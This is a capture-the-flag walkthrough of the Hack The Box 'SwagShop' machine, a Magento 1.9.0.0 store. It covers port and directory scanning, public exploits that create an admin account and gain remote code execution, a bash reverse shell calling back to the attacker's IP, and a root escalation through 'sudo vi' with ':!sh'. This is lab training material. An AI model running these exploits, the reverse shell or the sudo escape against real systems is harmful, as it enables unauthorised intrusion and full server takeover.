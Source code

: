 # recon
## nmap
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

## 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
- gobuster
```
/app (Status: 301)
/api.php (Status: 200)
/cron.php (Status: 200)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/install.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)

```
- about us
```
To all of you, from all of us at Magento Store - Thank you and Happy eCommerce!

John Doe
Some important guy
```
- /js/ : `SYNTAX: index.php/x.js?f=dir1/file1.js,dir2/file2.js`
- /install.php : `FAILED ERROR: Magento is already installed `
- /shell
```
[ ]	abstract.php	2014-05-07 14:58 	5.5K	 
[ ]	compiler.php	2014-05-07 14:58 	4.3K	 
[ ]	indexer.php	2014-05-07 14:58 	8.0K	 
[ ]	log.php	2014-05-07 14:58 	5.8K	 
```
- /errors
```
[ ]	404.php	2014-05-07 14:58 	1.0K	 
[ ]	503.php	2014-05-07 14:58 	1.0K	 
[DIR]	default/	2014-05-07 14:58 	- 	 
[ ]	design.xml	2014-05-07 14:58 	1.0K	 
[ ]	local.xml.sample	2014-05-07 14:58 	1.6K	 
[ ]	processor.php	2014-05-07 14:58 	16K	 
[ ]	report.php	2014-05-07 14:58 	1.1K	 
```
- /includes/ : config.php
- **/lib/Magento/Db/Sql**
- /index.php/admin : admin page
 


## foot hold
from searchsploit I found an interesting exploit `Magento eCommerce - Remote Code Execution`. run `searchsploit -x <script>` to read more about the exploit. which lead us to this [blog](https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) post. We can use this exploit to create a admin user and gain access to Magento admin panel.
```
bibo318@parrot:~/HTB/swag$ python2 37977.py
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
```
you can also change the script and modify admin username:password to what ever you like. note that **Magento ver. 1.9.0.0**.


after login it and googling the way to gain foothold exploiting Magento. there are several way to do it.
1. Froghopper which can be found in this [article](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
2. use another exploit found in `searchsploit` call `Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` which should work on swagshop since it is 1.9.0.0


some modification is requried to make the script works. you can google about some error which will occur while you try to run the exloit. HTB community forum, could be help full. Or debugg the code by yourself. make sure that the script is working by running `id` or `whoami`
```console
bibo318@parrot:~/HTB/swag$ python2 37811.py http://10.10.10.140/index.php/admin/ 'whoami'
www-data
```
it works, so let's replace it with bash reverse shell payload:
```console
bibo318@parrot:~/HTB/swag$ python2 37811.py http://10.10.10.140/index.php/admin/ 'bash -c "bash -i >& /dev/tcp/10.10.14.43/6969 0>&1"'
```
now go grab user flag.

# root
rooting is strait forward..
```console
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```
note that we are allow to use `vi` to edit/create any files in `/var/www/html/`. We will then type `:!sh` in vi to gain shell with root permission.
```console
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/LICENSE.txt
:!sh
*
*
*
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
c2*******************

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```